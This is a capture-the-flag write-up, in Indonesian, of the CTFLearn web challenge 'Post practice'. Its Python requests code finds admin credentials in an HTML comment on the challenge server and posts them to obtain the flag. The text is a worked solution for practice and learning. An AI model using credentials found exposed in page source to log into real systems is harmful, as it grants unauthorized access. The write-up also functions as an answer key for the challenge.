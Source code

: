 ```yaml
---
Title: CTFLearn write-up - Post practice (web)
Date: 2022-02-02
Tags:
- ctf
- writeup
categories:
- write ups
Description: "secara garis besar kita harus melakukan post request terhadap url http://165.227.106.113/post.php seperti..."
Author: 0xHynz
---
```


Post practice

`This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate? http://165.227.106.113/post.php`

secara garis besar kita harus melakukan post request terhadap url `http://165.227.106.113/post.php` seperti penjelasan dalam
challenge ini, yaitu website ini membutuhkan authentication lewat POST.

ketika hanya mengunjungi situsnya dengan browser, maka akan terdapat tulisan seperti ini

`This site takes POST data that you have not submitted!`

disini saya mencoba untuk melihat secara keseluruhan dari output yang saya terima melalui fitur view-source, namun
saya mencoba melihat isi webnya hanya dengan library request dipython saja.


```
from requests import post


url = "http://165.227.106.113/post.php"

r = post(url)
print(r.headers,r.status_code)
print()
print(r.text)
```

maka saya menerima output seperti ini

```
{'Server': 'nginx/1.4.6 (Ubuntu)', 'Date': 'Wed, 02 Feb 2022 09:08:07 GMT', 'Content-Type': 'text/html', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.5.9-1ubuntu4.22', 'Content-Encoding': 'gzip'} 200

<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
```

disini saya sudah bisa menebak apa selanjutnya, kita diperlihatkan username dan password namun
kita menerima pesan bahwa post data belum kita isi.


```
from requests import post

url = "http://165.227.106.113/post.php"

r = post(url)
print(r.headers,r.status_code)
print()
print(r.text)

data = {'username':'admin','password':'71urlkufpsdnlkadsf'}
print (post(url,data=data).text)
```

saya menambahkan data yang diberikan hasil dari source code tersebut, yaitu username dan password.
maka flag akan kita dapatkan.

```
{'Server': 'nginx/1.4.6 (Ubuntu)', 'Date': 'Wed, 02 Feb 2022 09:08:07 GMT', 'Content-Type': 'text/html', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.5.9-1ubuntu4.22', 'Content-Encoding': 'gzip'} 200

<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
<h1>flag{............}</h1>
```


